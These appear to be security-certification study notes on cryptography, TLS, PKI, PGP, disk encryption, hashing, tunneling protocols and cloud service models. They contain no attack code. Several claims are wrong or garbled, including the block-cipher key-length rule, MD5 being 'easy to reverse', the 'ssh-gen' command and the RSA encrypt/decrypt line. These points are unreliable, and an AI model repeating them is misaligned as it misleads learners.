- 📝 Used in • [digital certificates](./encrypting-communication.md#digital-certificate) • [PKI](./encrypting-communication.md#public-key-infrastructure-pki) • [SSH](./tunneling-protocols.md#ssh-secure-shell) • [PGP](./encrypting-communication.md#pgp-pretty-good-privacy) • [IPSec](./tunneling-protocols.md#ipsec)
- Algorithms include • [RSA](./encryption-algorithms.md#rsa-rivestshamiradleman) • [DSA](./encryption-algorithms.md#dsa-digital-signature-algorithm) • [Diffie-Hellman](./encryption-algorithms.md#diffiehellman)

##### Forward secrecy

- Also known as **perfect forward secrecy**
- Property of cryptographic systems ensuring future disclosure of encryption keys cannot be used to decrypt communications in past.
- Ensures that a session key derived from a set of public and private keys will not be compromised if one of the private keys is compromised in the future
- E.g. web traffic cannot be decrypted with only server's private key through a court order.

### Input-based ciphers

#### Block cipher

- 📝 Fixed-size blocks of data using a symmetric key
- Data bits are split up into blocks and fed into the cipher
- Each block of data (usually 64 bits) is encrypted with key and algorithm
- Simpler and slower than stream ciphers
- Key chosen for cipher must have a length larger than the data, if not, it is vulnerable to frequency attacks

#### Stream cipher

- 📝 One bit at a time using a symmetric key
- Combines each bit with a pseudorandom cipher digit stream (keystream)
- Works at a high rate of speed
- Usually done by an combining [XOR](#xor-cipher) with random generated key.

##### XOR cipher

- Also known as • **exclusive OR** • **modulus 2** (addition/subtraction).
- 📝 If the inputs match, the output is a 0; otherwise, it is a 1.

  | A | B | Output |
  |:-:|:-:|:------:|
  | 0 | 0 | 0 |
  | 0 | 1 | 1 |
  | 1 | 0 | 1 |
  | 1 | 1 | 0 |

- ❗ If the key chosen is actually smaller than the data, the cipher will be vulnerable to frequency attacks
- Uses "⊕" that denotes the exclusive disjunction (XOR) operation
- Applying XOR operator at every character encrypts, re-applying it decrypts.
# Encrypting communication

- Can happen in different layers on Internet protocol suite e.g.
  - 1. Link layer: • [PPP]
  - 2. Internet layer: • [IPSec](./tunneling-protocols.md#ipsec)
  - 3. Transport layer: • [TCP](./../03-scanning-networks/tcpip-basics.md#tcpip)
  - 4. Application layer: • [SSH](./tunneling-protocols.md#ssh-secure-shell) • [FTP, SFTP, FTPS](#securing-ftp) • [SSL / TLS](#ssltls)

## SSL/TLS

### SSL (Secure Sockets Layer)

- Protocol on the application layer
- Created to ensure the security of the message transmission over the network and Internet.
  - ❗ Not secure and has known vulnerabilities, use > [TLS](#tls-transport-layer-security) 1.2 instead.
- 📝 Uses both asymmetric and symmetric authentication mechanisms
  - Asymmetric encryption is used to establish a secure session between a client and a server
    - Utilizing [RSA](./encryption-algorithms.md#rsa-rivestshamiradleman) and [digital certificates](#digital-certificate)
  - Symmetric encryption is used to exchange data within the secured session
- Encrypts data at Transport Layer of [TCP/IP stack](./../03-scanning-networks/tcpip-basics.md#tcpip-model) and above

### TLS (Transport Layer Security)

- 📝 More secure successor of [SSL](#ssl-secure-sockets-layer)
- Protocol to establish secure client-server connection.
- Ensures the information integrity and privacy during transmission.
- Uses RSA 1024 and 2048 bits
- ❗ Use at least TLS 1.2, lower version has vulnerabilities.
- Most commonly used implementation of SSL/TLS is OpenSSL library.
- Vulnerabilities include • [Heartbleed (OpenSSL)](./../05-vulnerabilities/common-vulnerabilities.md#heartbleed) • [POODLE](./../05-vulnerabilities/common-vulnerabilities.md#poodle) • [CRIME](./../13-web-applications/session-hijacking.md#crime-attack) and [BREACH](./../13-web-applications/session-hijacking.md#breach-attack) • [Renegotiation attack](./../05-vulnerabilities/common-vulnerabilities.md#ssltls-renegotiation) • [FREAK](./../05-vulnerabilities/common-vulnerabilities.md#freak) • [DROWN](./../05-vulnerabilities/common-vulnerabilities.md#drown)

#### Two layers of TLS

- **TLS Record Protocol**
  - Provides secured communication channel
  - Private connection: using symmetric cryptography for data encryption
  - Reliable connection: providing message integrity check
- **TLS Handshake Protocol**
  - Providing connection security that has three basic properties:
    1. The peer's identity can be authenticated using asymmetric cryptography
    2. The negotiation of a shared secret is secure
    3. The negotiation is reliable
  - TLS Handshake Protocol operates on top of TLS record layer

### SSL/TLS Handshake


## Securing FTP

### Insecure FTP options

#### FTP (File Transfer Protocol)

- Used for the transfer of computer files between a client and server on a computer network.
- Runs on Application layer (4) in internet protocol suite
- Insecure as it has minimal security through user ID and passwords.
- Runs on port 21

#### TFTP (Trivial File Transfer Protocol)

- Less secure than FTP using no authentication at all
- Runs on port 69

### Secure options

- **Encrypting files before using FTP**
  - Does not protect user password, or prevent man in the middle from downloading encrypted files
- **SFTP (SSH File Transfer Program)** | port: 22
  - Uses [SSH](./tunneling-protocols.md#ssh-secure-shell) for authentication and data transport mechanism
- **FTP over SSH**
  - SSH connection must be established between the two systems before the FTP connection is established
- **FTP over [IPSec](./tunneling-protocols.md#ipsec)**
  - IPSec runs on lower layer Internet layer (3) on [IP suite](./../03-scanning-networks/tcpip-basics.md#tcpip-model).
  - Can cause high amount of CPU cycles on interrupt or kernel level.
- **FTP over VPN**
- **FTP over TLS**
  - Also known as • **FTPS** • **FTP-SSL** (old name) • **FTP Secure**
- **Comparison**

  | Method | Password Privacy | Server Verification | Data Privacy | Data Integrity | Test and Binary Transfers | Automatic |
  | ------ | ---------------- | ------------------- | ------------ | -------------- | --------------------- | -------- |
  | **Separate encryption** | No | No | Yes | Maybe | Maybe | No, file must be encrypted and decrypted separated from the transfer |
  | **SFTP** | Yes | Yes, private key | Yes | Yes | Maybe | Yes |
  | **FTP over SSH** | Yes | Yes, private key | Yes | Yes | Yes | No, separate setup of the tunnel is needed |
  | **FTP over IPSec** | Yes | Yes, private key or certificate authority | Yes | Yes | Yes | Yes, but configuration can be a challenge |
  | **FTP over VPN** | Yes | Maybe | Yes | Yes | Yes | Maybe, but may have configuration challenges |
  | **FTPS** | Yes | Yes, private key or certificate authority | Yes | Yes | Yes | No, but it's easy to use |

## Digital signatures

- Created using asymmetric cryptography
- Attached to the transmitted data
- 📝 Usually used in cases where it is important to detect forgery or tampering
  - E.g. • software distribution • financial transactions • contract management software
- 📝 Provides cryptographic way of
  - **Authentication**
    - Verifies identity of the source messages
    - Through a secret-key that's bound to a specific user
  - **Integrity**
    - Ensures the communication is not altered during transmission
    - Avoids forging as any change would invalidate the signature
  - **Non-repudiation** of origin
    - The sender cannot falsely claim that they have not signed the message
- ❗ Risks
  - Revoked secret key (key pair) prior to its usage
  - Leaked secret keys that would continue to implicate the claimed owner of the key-pair
- 📝 Simplified flow
  1. Sender hashes the file and encrypts using **sender's private key**
     - Provides non-repudiation since only the sender has access to their private key.
     - However there's no confidentiality as it can be unencrypted by anyone with access to the sender's public key
     - The hashing of the email is what creates the integrity.
  2. Recipient decrypts the message with its **sender's public key**
- [Digital Signature Algorithm (DSA)](encryption-algorithms.md#dsa-digital-signature-algorithm) is the standard used in generation and verification

### Encryption vs Signing

- When encrypting:
  - You use **their public key** to write a message
  - They use **their private key** to read it
  - > I want my public key to be used to read the messages and I do not care who reads them
- When signing:
  - You use **your private key** to write message's signature
  - They use **your public key** to check if it's really yours.
  - > I only care that I am the only one who can generate these.

### Digital signature flow


## Public Key Infrastructure (PKI)

- Security architecture/structure for managing digital certificates
- 📝 Goal is secure electronic transfer of information for a range of network activities
- Provides confidentiality, integrity, access control, authentication, and non-repudiation of the sender.
- Includes hardware, software, people, policies, and procedures
- Goal is to increase the confidentiality of information that is being exchanged.
- Used widely e.g. by browser, operating systems for system updates...
- **Cross-Certification**
  - Allowing a CA to trust another CS in a completely different PKI
  - Allowing both CAs to validate certificates from either side
- **Single-authority system**
  - CA at the top that creates and issues certificates
- **Hierarchical trust system**
  - CA at the top (root CA)
  - Making use of one or more RAs (subordinate CAs) underneath it to issue and manage certificates

### Key escrow

- Also known as **fair cryptosystem**
- Allows a third party to access sensitive data if the need arises.
- A copy of a private key is stored to provide third-party access and to e.g.
  - facilitate recovery operations
  - comply with a court order

### Actors of PKI

- **Validation authority (VA)**
  - 📝 Used to validate certificates, stores certificates with their public keys
- **Certificate authority (CA)**
  - Also known as **certification authority**
  - 📝 Third party to issue and verify [digital certificate](#digital-certificate)s
    - Digital certificates contain public key and the identity of the owner.
  - E.g. [Comodo](https://ssl.comodo.com/), [IdentTrust](https://www.identrust.com/), [GoDaddy](https://godaddy.com/web-security/ssl-certificate)
- **Registration authority (RA)**
  - 📝 Acts as verifier for the certificate authority
- **Certificate Management System**
  - Generates, distributes, stores, and verifies certificates
- **End user**
  - Requests, manages, and uses certificates

### PKI process flow

1. A ***user*** applies for a certificate with his public key at a ***Registration Authority (RA)***
2. ***Registration Authority (RA)*** confirms the ***user***'s identity to ***Certificate Authority (CA)*** which in turn issues the certificate and informs ***Validation Authority (VA)***
3. The ***user*** can then digitally sign a contract using his new certificate.
4. His identity is then checked by the contracting party with a ***Validation Authority (VA)*** which again receives information about issued certificates by the ***Certificate Authority (CA)***.



## Digital certificate

- Electronic file
- Used to verify a user's identity (= non-repudiation)

### X.509

- Standard protocol used for digital certificates, public key encryption
- Defining all sorts of things regarding PKI including digital certificates
- Identifies components of a digital certificate: • version • algorithm ID • copy of the public key • key usage description

### Digital certificate vs digital signature

- The certificate ties the digital signature to a data object.
  - Digital signature secures the data in transit.
- Digital certificate uses the public key to identify source of the data.
  - the digital signature uses the public key to verify integrity of the data.
- ❗ Signatures do not help with revoked keys and stolen keys
  - CA maintains certificate revocation list
- Certificates helps to prove senders authenticity of public keys (e.g. who signed what)
  1. Sender obtains digital certificate by registering his public key to a certificate authority.
  2. CA uses its private key to sign senders certificate and attaches CA public key to his certificate.
  3. Receiver decrypts and validates signature using certificate authority's public key.

### Certificate types

- **Signed certificate**
  - Issued by Certification Authorities (CA)
  - Contains a public key and the owner's identity.
- **Self-signed certificate**
  - Issued and signed by oneself (not CA)
  - ❗ Not to be trusted
  - Used for testing/development purposes
  - Otherwise better to use [let's encrypt](https://letsencrypt.org/) that offers free SSL/TLS certificates

## PGP (Pretty Good Privacy)

- Encryption program
- Protocol for
  - secure communication through encryption and decryption
  - authentication (ensures users are who they claim to be)
- Uses a serial combination of
  - hashing
  - data compression
  - symmetric-key cryptography
  - public-key cryptography
- Main uses include
  - Sending and receiving encrypted emails.
  - Verifying the identity of the person who has sent you this message
  - Encrypting files
- Available as both open-source and commercial software

### Web of trust

- Used by PGP
- Decentralized model
- Individual users sign keys that belong to other people
- Validates that key are who they say they are

### PGP encryption and decryption workflow


### PGP tools

### GNU Privacy Guard

- Also known as **GnuPG** or **GPG**
- Open-source and free implementation of PGP
- Allows to encrypt and data and communications
- E.g. create key pair `gpg --gen-key`
- E.g. for symmetric encryption only
  - `gpg -c <file-name>` to encrypt
  - `gpg <file-name>` to decrypt

### PGP Alternatives

#### PEM (Privacy-Enhanced Mail)

- Proposed IETF standard for secure email, obsoleted by PGP.
- Depended on a single root certificate for its public key infrastructure (PKI)
- Was impractical and had its own problematic implications for security.

#### S/MIME

- Secure/Multipurpose Internet Mail Extensions
- Standard for encrypting and authenticating MIME data
- Used primarily for Internet e-mail.
- PGP is an application, whereas S/MIME is a protocol.
- PGP can be used to encrypt not only e-mail messages but also files and entire drives.
# Disk encryption

- Encryption of all data stored on a disk.
- Data-at-rest protection
- Protect the data stored in the disk and ensure its confidentiality
- 📝 Protects against someone who gains physical access to your device
  - ❗ But does not protect from malware or from being attacked by hackers over the internet

## Full Disk Encryption (FDE)

- Encrypting every bit of data stored on a disk or a disk volume
- Working similar to text-message encryption and protects data even OS is not active
- Protects system folders, files, and MBR until valid credentials are provided at pre-boot

## Disk encryption tools

- [VeraCrypt](https://www.veracrypt.fr/)
- [Symantec Drive Encryption](https://help.symantec.com/cs/SEE11.3_MS/SEEMS/v98749288_v130891549/Configuring-the-Drive-Encryption---Encryption-policy-options)
- [BitLocker Drive Encryption](https://en.wikipedia.org/wiki/BitLocker)
- [cryptsetup](https://gitlab.com/cryptsetup/cryptsetup)
  - Open-source disk encryption utility tool
  - Supports [LUKS (Linux Unified Key Setup)](https://en.wikipedia.org/wiki/Linux_Unified_Key_Setup), TrueCrypt, VeraCrypt, BitLocker, loop-AES, dm-crypt...
  - Encrypt
    1. `sudo yum install cryptsetup`
    2. Find mapped disk folder to encrypt using `sudo fdisk -l`
    3. `sudo cryptsetup -y -v luksFormat /dev/<mapped-folder>`
  - Decrypt
    - `sudo cryptsetup luksOpen /dev/<mapped-folder> <new-name>`
      - Will map unencrypted device to `/dev/mapper/<new-name>` (check `fdisk -l`)
    - More information about encryption method etc:
      - `sudo cryptsetup status <new-name>`
      - or `sudo cryptsetup luksDump /dev/<mapped-folder>`
    - Reformat device:
      - Clear: `sudo dd if=/dev/zero of=/dev/mapper/<mapped-folder> bs=128`
      - Create file system: `sudo mkfs.ext4 /dev/mapper/<mapped-folder>`
    - Mount: `sudo mount /dev/mapper/<mapped-folder> <mountad-name>/`
# Encryption algorithms and techniques

- **Algorithm**: step-by-step method of solving a problem
- **Encryption algorithms**: mathematical formulas used to encrypt and decrypt data
- Keys should still change on a regular basis even though they may be "unhackable"
- 📝 In terms of speed
  - Symmetric encryption algorithms are faster than asymmetric algorithms
  - Stream ciphers (including AES in CTR) are [usually faster](https://crypto.stackexchange.com/a/31281) than [hash functions](./hashing-algorithms.md#hash-functions)

## Encryption types per OSI layer

| [OSI layer](./../03-scanning-networks/tcpip-basics.md#osi-model) | Encryption type | Description |
|:---------:| --------------- | ----------- |
| 2 | Link encryption | Everything including original headers is encrypted |
| 3 | Network encryption | Everything in the packet is encrypted |
| 4 | Protocol encryption | Specific protocols are entirely encrypted e.g. [SSL](./encrypting-communication.md#ssl-secure-sockets-layer) |
| 5 | Service based encryption | Encryption for specific services on specific hosts |
| 6 | Data encryption | |
| 7 | Application based information encryption | |

## Symmetric algorithms

- Both ends of the transmission must use the same key.
  - Requires to find a secondary secure channel to send the symmetric key to the recipient to ensure security.

### DES (Data Encryption Standard)

- Block cipher, 56-bit key, 64-bit block size
- Developed in the early 1970s at IBM
- Was a standard set by NSA but was withdrawn, quickly outdated
- Used in initial implementation of Kerberos but later deprecated
- Considered insecure, has been superseded by the [Advanced Encryption Standard (AES)](#aes-advanced-encryption-standard)

### 3DES (Triple Data Encryption Standard)

- Block cipher, 168-bit key
- More effective than DES but much slower
- 3 keys are used:
  1. Used to encrypt the plain text
  2. Used to decrypt ciphertext resulting from the first round of encryption
  3. Used to encrypt the ciphertext that resulted from the decryption with the 2nd key

### AES (Advanced Encryption Standard)

- Iterated block cipher, 128, 192 or 256 bit key, 128-bit block size
- Original name is **Rijndael**, named to AES after [Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process) contest.
- Symmetric-key algorithm
- Performs same operation multiple size
- Approved and used by NSA
- Much faster than DES and 3DES for bulk data encryption.

### RC (Rivest Cipher)

- 📝 Symmetric-key algorithm.
- Lost to [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process) in [Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process) contest.

#### RC4

- Variable length key algorithm
- Uses random permutations
- Stream cipher

#### RC5

- Parameterized algorithm
- Block cipher (slower)
- Variable
  - block size: can be 32, 64, or 128 bits
  - key size: between 0 and 2048 bits
  - number of rounds: between 0 and 255

#### RC6

- Extends RC5 with two features
  1. integer multiplication
  2. 4-bit registers (RC5 uses 2-bit registers)

### Blowfish

- Fast symmetric block cipher, 64-bit block size, 32 to 448 bits key
- Considered public domain
- Insecure

### Twofish

- Symmetric-key block cipher
- Uses 128-bit blocks
- Key size can range between 0 and 256 bits.
- Lost to [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process) as finalist in [Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard_process) contest.

## Asymmetric algorithms

### RSA (Rivest–Shamir–Adleman)

- One of the common used encryption standards for data transmission.
- 📝 Achieving strong encryption through the use of two large prime numbers
- **Solves**
  - I want anybody to be able to encrypt a message, but I'm the only one who can decrypt it. I don't want to share decryption keys with anybody.
- There are no published methods to defeat the system if a large enough key is used.
- Wide usage, e.g. SSH for public key authentication
  - A lot safer than password authentication (should be disabled after copying keys)
  - Steps
    1. `ssh-gen -t rsa` creates private and public keys in `.ssh` folder
    2. Copy the key to server to be connected
       - Can run e.g. `ssh-copy-id user@192.168.122.37` with ssh password
       - Or just copy `~/.ssh/id_rsa.pub` to the server manually.
- 💡 In RSA crypto, when you generate a key pair, it's completely arbitrary which one you choose to be the public key, and which is the private key.
  - If you encrypt with one, you can decrypt with the other - it works in both directions.
  - When encrypting, private key is used to decrypt and public key to decrypt
    - "I want to be able to encrypt certain information and use it as a product key for my software."
  - When signing, private key is used to encrypt and public key to decrypt
    - "I want to use my private key to generate messages so only I can possibly be the sender."
- Recommended key size is 2048 bits or higher.
- 🤗 [RSA Factoring Challenge](https://en.wikipedia.org/wiki/RSA_Factoring_Challenge)
  - Held between 1991 and 2007 with price awards
  - Goal was to factoring prime numbers used by RSA
  - Shows cryptanalytic strength of RSA

### Diffie–Hellman

- Also known as **Diffie Hellman** or **DH**
- Used for generating a shared key between two entities over an insecure channel.
- One of the first public-key protocols
- 📝 Used in • [SSL](./encrypting-communication.md#ssl-secure-sockets-layer) • [IKE (Internet Key Exchange) | IPsec](./tunneling-protocols.md#ike-internet-key-exchange)
- ❗ If digital signatures are waived, vulnerable to MITM attacks
- Enables two parties to encrypt their traffic with a shared key.
- **Solves**: We have a symmetric encryption scheme and want to communicate. We don't want anybody else to have the key, so we can't say it out loud (or over a wire).

#### Diffie–Hellman groups

- Determines the strength of the key used in the Diffie-Hellman key exchange process.
- Higher Diffie-Hellman Group numbers are more secure, but requires more computation power.
- • Group 1 (768-bit) • Group 2 (1024-bit) • Group 5 (1536-bit) • Group 14 (2048-bit) • Group 15 (3072-bit) • Group 19 (256-bit elliptic curve) • Group 20 (384-bit elliptic curve) • Group 21 (521-bit elliptic curve) • Group 24 (2048-bit, 256 bit subgroup)

#### Elliptic-curve Diffie–Hellman

- Also known as • **ECDH** • **Elliptic curve Diffie Hellman**
- Variant of the Diffie–Hellman protocol using [elliptic-curve cryptography](#ecc-elliptic-curve-cryptography)
- 📝 Used in • [SSH](./tunneling-protocols.md#ssh-secure-shell) • [TLS 1.3](./encrypting-communication.md#tls-transport-layer-security)

### ECC (Elliptic-curve cryptography)

- Also known as **elliptic curve cryptosystem**
- Using points on elliptical curve along with logarithmic problems
- Using less processing power, smaller keys, good for mobile devices

### DSA (Digital Signature Algorithm)

- Asymmetric algorithm
  - Private key tells who signed the message
  - Public key verifies the digital signature
- In the message exchange, each entity creates a public and private key.
- Per [FIPS 186-5](https://doi.org/10.6028/NIST.FIPS.186-5-draft), it's not recommended for signature generation but approved for signature verification.

## Symmetric vs asymmetric algorithms

| Differentiator | Symmetric Key Encryption | Asymmetric Key Encryption |
| -------------- | ------------------------ | ------------------------- |
| **Key** | Only one key (symmetric key) is used to encrypt and decrypt | Two different cryptographic keys (asymmetric keys), called the public and the private keys, are used to encrypt and decrypt |
| **Complexity and Speed of Execution** | Simple technique, fast encryption | More complicated process, slower |
| **Length of key** | Smaller, usually 128, 256 and 512 bits | Much larger, e.g. recommended RSA key size is 2048 bits or higher |
| **Common usage** | When large chunks of data need to be transferred. | Smaller transactions, primarily to authenticate and establish a secure communication channel prior to the actual data transfer. |
| **Security** | The secret key is shared. Consequently, the risk of compromise is higher. | The private key is not shared, and the overall process is more secure as compared to symmetric encryption. |
# Hashing algorithms

- Also known as **one-way functions**, **hash functions** or **message-digest-functions**
- Calculates unique fixed-size representation of a block of information.
- Cannot be reversed.
- 📝 Used for
  - integrity e.g. when downloading a file in internet, you can compare downloaded files hash with hash given on the website to ensure the right file is downloaded
  - storing passwords in a database by e.g. operating systems
- **Checksum**
  - Number created by a message digest.

## Collision resistance

- Property of a hash function
- 📝 [Computationally infeasible](cryptography-overview.md#computational-infeasibility) to find two colliding inputs
- See also [Collision attack | Cryptanalysis](./cryptanalysis.md#collision-attack)

## Hash functions

### MD5

- 📝 Most popular message digest algorithm.
- Takes any length of input and produces a 128-bit hash
- Considered very insecure as it is easy to reverse with current processing power
- Still used commonly in integrity checking e.g. file download verification

### SHA

- Secure Hashing Algorithms
- 📝 Generates a cryptographically secure message digest.
- Published by NIST (National Institute of Standards and Technology)
- Generations
  - **SHA-0**
    - Withdrawn shortly after publication due to a flaw and replaced with revised SHA-1
  - 📝 **SHA-1**
    - Produces 160-bit digests
    - Designated by NSA
  - **SHA-2**
    - Primarily SHA-256 (32-bit block words), SHA-512 (64-bit block words)
    - Truncated versions: SHA-224, SHA-384, SHA-512/224 and SHA-512/256
    - Designated by NSA
  - **SHA-3**
    - Chosen after competition by non-NSA designers
    - Supports same hash lengths as SHA-2
    - Internal structure differs significantly from the rest of the SHA family.

### RIPEMD (RACE Integrity Primitives Evaluation Message Digest)

- 160-bit hash algorithm
- Working through 80 stages made up of 6 blocks that executes 16 times each
- Using modulo 32 addition

## HMAC

- Expands either as
  - Keyed-hash message authentication code
  - Hash-based message authentication code
- Uses a combination of a cryptographic key and hash function such as SHA-1 or MD5.
- Used for authentication and integrity checks.
- E.g. `HMAC_SHA256("key", "The quick brown fox jumps over the lazy dog") = f7bc83f430538424b13298e6aa6fb143ef4d59a14946175997479dbc2d1a3cd8`
- Uses **keyed hashing** to generate hashed-based MACs (HMAC).  
  - Involves hashing a message with a • hash function and • a secret key.
  - Message authentication codes (MACs)
    - Cryptographic checksums
    - Used to detect when an attacker has tampered with a message
  - Keyed hashing vs [salted hashes](#salted-hash)
    - Keyed hashing is against tampering, hash salting is against brute-force attacks.
    - Salts are not assumed to be secret but keys are.
- HMAC can provide digital signatures without PKI infrastructure
  - Delegates the key exchange to the communicating parties
  - Parties are responsible for establishing and using a trusted channel to agree on the key prior to communication

## Hash function attacks

- [Collision](./cryptanalysis.md#collision-attack)
- [Birthday attack](./cryptanalysis.md#birthday-attack)
- [Rainbow tables](./cryptanalysis.md#rainbow-table-attack)
- [Brute-force attack](./cryptanalysis.md#brute-force-attack)

### Hash function attack countermeasures

#### Salted hash

- 📝 Hash is used with salt (collection of random bits) to obscure the hash.
- Goal is to increase protection against dictionary and brute-force attacks.
- Usually the salt is stored along with the hash of e.g. password.
- See also [Password cracking countermeasures](./../06-system-hacking/cracking-passwords-overview.md#password-cracking-countermeasures)

#### Key stretching

- Converting a key (e.g. password) to a longer and more random key to e.g. use as encryption.
- Makes encryption stronger as it increases the time and resources for brute-force attacks.
- Usually done by re-hashing multiple (e.g. a few million) times
- E.g. using slow key derivation functions such as PBKDF2
# Tunneling protocols

- Allows for the movement of data from one network to another
- Involves repackaging the traffic data into a different form, usually using encryption
  - Can hide the nature of the traffic that is run through a tunnel.

## OpenVPN

- [Open-source](https://github.com/OpenVPN/openvpn) [VPN](./../11-firewalls-ids-and-honeypots/firewall-overview.md#virtual-private-network-vpn) system
- Create secure point-to-point or site-to-site connections in routed or bridged configurations and remote access facilities
- Allows peers to authenticate each other using
  - pre-shared secret keys
  - [certificates](encrypting-communication.md#digital-certificate)
  - or username/password

## SSH (Secure Shell)

- Cryptographic network protocol for operating network services securely over an unsecured network.
- Usually used for remote command-line, login, and remote command execution.
- Replaces insecure [Telnet](./../03-scanning-networks/banner-grabbing.md#telnet)
- Introduces **SSH file transfer (SFTP)** or **secure copy (SCP)** protocols for secure file access,transfer and management.
- **SSH handshake**
  1. [TCP three-way handshake](./../03-scanning-networks/tcpip-basics.md#three-way-handshake)
  2. Protocol/software version announcement
  3. Algorithm negotiation
  4. Key exchange using [Elliptic-curve Diffie–Hellman](encryption-algorithms.md#elliptic-curve-diffiehellman)

## IPSec

- IPsec is an end-to-end security scheme
- 📝 Part of IPv4 suite so it runs on layer 3 (internet layer) in [TCP/IP model](./../03-scanning-networks/tcpip-basics.md#tcpip-model) or layer 3 (transport) in [OSI model](./../03-scanning-networks/tcpip-basics.md#osi-model)
- 📝 Provides security through
  - **Authentication** through authenticating both parts
  - **Integrity** through using a hash algorithm to ensure that data is not tampered with.
  - **Non-repudiation** through using public key digital signatures to prove message origin.
  - **Confidentiality** through encryption

### IKE (Internet Key Exchange)

- Also known as **IKEv1** or **IKEv2** depending on the version.
- 📝 Encrypts packets (payloads and headers) between parts
- Uses [X.509](./encrypting-communication.md#x509) for public key and encryption
- Cryptographic settings are established through ***Internet Key Exchange crypto profile*** (IKE policies)
- Tool: [`ike-scan`](https://github.com/royhills/ike-scan)
  - Discover, fingerprint and test IPsec VPN servers and firewalls
  - Sends a specially crafted IKE packet to each host within a network
- 📝 Deployed widely to implement e.g.
  - virtual private networks (VPNs)
  - remote user access through dial up connection to private networks

### IPSec security architecture

- **Authentication Headers (AH)**
  - Provides connectionless integrity and authentication for the entire IP packet
  - Provides protection against replay attacks
- **Encapsulating Security Payloads (ESP)**
  - 📝 In addition to AH it provides confidentiality through encryption
  - Unlike AH, it does not provide integrity and authentication for entire IP packet
    - The outer header (including any outer IPv4 options or IPv6 extension headers) remains unprotected
  - Supports encryption-only and (❗ insecure) authentication-only configurations
- **Security Associations (SA)**
  - Provides the bundle of algorithms and data to provide the parameters necessary for AH and/or ESP

### IPSec modes of operation

- AH and ESP can be implemented in both modes

#### Transport mode

- Usually authenticated
- Only payload is optionally encrypted.
- Not compatible with NAT when authenticated.
- 📝 Used within same network

#### Tunnel mode

- Entire packet is encrypted and authenticated.
- Compatible with NAT
- 📝 Used to create virtual private networks between different networks.

## PPP (Point-to-Point Protocol)

- Provide connection authentication, transmission encryption and compression.
- Provides router-to-router or host-to-network connections over asynchronous and synchronous circuits.
- Can be used to create e.g. SSH tunnels
- OSI Layer: 2 - Data link | Internet protocol suite layer: 1 - Link layer

### Point-to-Point Tunneling Protocol (PPTP)

- Insecure/obsolete method for implementing virtual private networks
- Uses a TCP control channel and a Generic Routing Encapsulation tunnel to encapsulate PPP packets.
# Cloud computing

- Cloud computing = On-demand access to IT capabilities
- Before cloud computing
  - Everything was stored and processed locally (on-premises)
  - Centralized, secluded and segmented
- Now third party (cloud provider) stores the data.

## NIST definition of cloud computing

- 🤗 See also [NIST definition of cloud computing](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-145.pdf)

### Essential characteristics

- **On-demand self-service**
  - Consumers can unilaterally provision computing capabilities
    - E.g. computing power, storage, network
  - Does not require human interaction
- **Broad network access**
  - Capabilities are available and accessible over the network.
  - Via wide variety of platforms e.g. laptops, mobile phones and PDAs
- **Resource pooling**
  - Uses multi-tenant model to provide resources pooled to serve multiple consumers
    - The instances (tenants) are logically isolated, but physically integrated.
    - One or multiple instances of one or multiple applications operate in a shared environment.
  - Assigns different physical and virtual resources dynamically
  - Location is abstracted to e.g. country, state or data-center
    - Exact location is unknown to user
- **Rapid elasticity**
  - Feeling of "infinite" and instant scalability
  - Usually automatically
- **Measured service**
  - Metering capability in an abstracting way e.g. storage, processing, bandwidth, active user accounts.
  - Resource usage can be monitored, controlled, and reported

## Cloud computing service models

### Infrastructure as a services (IaaS)

- Capability for consumers to provision processing, storage, networks, and other fundamental computing resources
- Aims to give most control over the provided hardware that runs applications
  - E.g. operating systems, storage, and networking components
- E.g. virtual machines (EC2 in Amazon), virtual networks.

### Platform as a Service (PaaS)

- Provides capability for consumers to deploy onto managed cloud infrastructure
- Allows consumer to use programming languages, SDKs, services, and tools supported by the provider
- Consumer does not control or manage underlying cloud infrastructure
  - But can control deployed applications and configurations for the hosting environment
- Provides an environment for building, testing, and deploying software applications
  - Can add features such authentication.
- Aims to help creating an application quickly without managing the underlying infrastructure.
- E.g. development tools, config management, and deployment platforms

### Software as a Service (SaaS)

- Software that is centrally hosted and managed for the end customer.
- User does not control underlying cloud architecture
  - E.g. network, servers, OS, storage etc.
  - Can only control limited user-specific application configurations.

### IaaS vs PaaS vs SaaS



### Identity-as-a-Service (IDaaS)

- Managed authentication services
- Services include e.g. • [Single-Sign-On (SSO)](./../01-introduction/identity-access-management-(iam).md#single-sign-on-sso) • [Multi-Factor-Authentication (MFA)](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa) • Identity Governance and Administration (IGA) • Access management • Intelligence collection

### Security-as-a-Service (SECaaS)

- Integrates security services into corporate infrastructure
- Services include e.g. • penetration testing • authentication • intrusion detection • anti-malware • security and incident management.
- E.g. [McAfee Cloud Security](https://www.mcafee.com/enterprise/en-us/solutions/cloud-security.html)

### Container-as-a-Service (CaaS)

- Container and cluster services
- Services include e.g. • virtualized container engines • easier container and cluster management
- Inherits features of [IaaS](#infrastructure-as-a-services-iaas) and [PaaS](#platform-as-a-service-paas)
- See also [container security](./container-security.md)

### Function-as-a-Service (FaaS)

- Provides a platform allowing to develop, run, and manage functionalities without any infrastructure effort.
- E.g. [AWS Lambda](https://aws.amazon.com/lambda/), [Google Cloud Functions](https://cloud.google.com/functions), [Azure Functions](https://azure.microsoft.com/en-us/services/functions/)

## Separation of duties

- Cloud computing is the ultimate in separation of duties
- E.g.
  - The data owner is the entity accountable for the data itself
  - Data custodian is the entity responsible for access to the data
  - When a single individual becomes both the data owner and the data custodian, security issues can arise.
- Also a countermeasure for [insider attacks](./../01-introduction/security-threats-and-attacks.md#insider-attack-countermeasures) and [social engineering attacks](./../10-social-engineering/social-engineering-types.md#social-engineering-countermeasures).

### Shared responsibility

- **On-premises**: you manage everything.
- **IaaS**: provider manages virtualization, servers, storage and networking
- **PaaS**: provider additionally manages OS, middleware and runtime
- **SaaS**: provider manages everything

### Cloud Deployment Models

#### Private cloud

- Provisioned for exclusive use of single organization
- May be owned/managed/operated by the organization, third party or combination
- May be on or off premises

#### Public cloud

- No local hardware to manage or keep up-to-date, everything runs on your cloud provider's hardware.
- Services are rendered over a network
- Provisioned for open use by the general public
- May be owned/managed/operated by a business, academic, government or combination.
- Exists on the premises of the cloud provider.

#### Community Cloud

